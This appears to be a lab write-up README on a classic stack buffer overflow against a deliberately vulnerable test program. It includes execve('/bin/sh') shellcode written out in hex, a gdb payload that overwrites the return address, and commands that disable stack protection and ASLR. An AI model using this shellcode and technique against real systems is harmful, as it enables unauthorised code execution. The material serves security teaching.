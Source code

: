 # Understand InjectionCode 
In reality, we don't actually know how long is the stackframe is, so we need to determine how long is it by adding bytes to examine! The task is to load the shellcode into the buffer in the vulnerable program, then insert it into the return address so that the program returns and executes the command I just inserted into the buffer.
## Stackframe
![image](https://github.com/user-attachments/assets/45d28a14-09e3-448e-9ad8-5e3c82b7cd99)
## Vulnerbility
In buf, we can redirect the return address to our assembly code to run our own code!
# Start attacking with InjectionCode 
## Compiling sh.asm file in order to use later
- `nasm -g -f elf sh.asm` or `nasm -f elf32 sh.asm -o sh.o` if the file is existed    
- `ld -m elf_i386 sh.o -o sh sh.o`  
![image](https://github.com/user-attachments/assets/a1d163e7-fb87-4dd8-b958-7ab4893fb80d)
![image](https://github.com/user-attachments/assets/34da393b-eca5-491c-9092-1cdfa8ec6c95)
## Get the hex string of the shellcode
- `for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
![image](https://github.com/user-attachments/assets/6a6fe454-3a88-4ba7-ad41-5e24d06c9757)
=> With each x is a byte => we have 27 bytes
## Start attacking
- Compile the vuln.c file `gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](https://github.com/user-attachments/assets/59643489-9be9-40d2-bd46-56df9be508bd)  
- To execute code on stack, we need to create new shell! type `sudo ln -sf /bin/zsh /bin/sh` with password: dees
![image](https://github.com/user-attachments/assets/46290e78-f765-4ab3-86d9-a03b63c68962)
- Load the file to gdb to examine `gdb -q vuln.out`
![image](https://github.com/user-attachments/assets/71f61be6-604e-429c-8b6f-6b451ea430b7)
- Type `disas main` to see the assembly code
![image](https://github.com/user-attachments/assets/e48f3b4d-e61d-4431-8b0f-4d760b1ee3fb)  
=> At this stage, we will now add 2 breakpoints to see how the code we inject affect the stack!  
- Set at +6, after the stack frame is established `b *0x08048441`
  ![image](https://github.com/user-attachments/assets/a3d3478f-9972-434b-9179-7d420b293451)
- Set at +48, before strcpy, we notice that eax has been pushed twice, meaning esp has now decreased by 8 bytes `b *0x0804846b`
  ![image](https://github.com/user-attachments/assets/88216630-ceeb-49f2-99b9-e3673a504d8e)
- Now we run the python code with `r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a'*41 + '\xff\xff\xff\xff')")`
 => See where the **\xff\xff\xff\xff** at
 ![image](https://github.com/user-attachments/assets/81c15458-dc77-471e-919b-1bc159f401b5)
 => At each step, we use `x/80xb $esp` to see the code from esp to lower
 ![image](https://github.com/user-attachments/assets/1a8a1a62-1e4c-4e78-ba2d-90365c5c5eb4)
    * We notice that the shellcode hasn't been inserted!
 => To go on, we use `continue`
 ![image](https://github.com/user-attachments/assets/6ce01ee3-bd39-42bb-9765-6d0add497f62)
    * From now, when we do `x/80xb $esp`, we can see our code that we injected before!
      ![image](https://github.com/user-attachments/assets/c064f0b2-cc47-438c-8d87-6943f7d06020)
    * the **0xff 0xff 0xff 0xff** is at the address 0xffffd6a8 (Because memory starts from address 0 - 15, corresponding to 0 - F in hexadecimal, the first 0xff byte will have a memory address starting with 0xffffd6a8)
- We set that new address to the esp by using `set *0xffffdec=#esp` => Thus, the address in the return address (ret addr) has been replaced by the esp (stack pointer), causing the program to return and continue executing instructions within the stack frame.
  ![image](https://github.com/user-attachments/assets/2f4f1fb7-53bf-4cca-948d-144d5206e5b5)
- If we type continue we will receive this signal => You did the right way!
  ![image](https://github.com/user-attachments/assets/70420abe-e18e-41d3-bccc-3c74056f16d9)
## To disable Address Space Layout Randomization (ASLR), which is responsible for the randomization of memory addresses, you can follow these steps
`sudo sysctl -w kernel.randomize_va_space=0` with password: **dees**  
## If you want to turn it on again please
do `sudo sysctl -w kernel.randomize_va_space=2`  
- 2 means on both heap and stack
  ![image](https://github.com/user-attachments/assets/c81211de-3710-4d2b-9ca6-2fdf4c2b325f)
- 1 means for only stack
  ![image](https://github.com/user-attachments/assets/df985c95-1dca-4f8a-908f-8cc99afaa8cf)
- 0 means not for both
  ![image](https://github.com/user-attachments/assets/a920732c-cafb-4b9f-a8f1-6ee3ea9a4fbd)
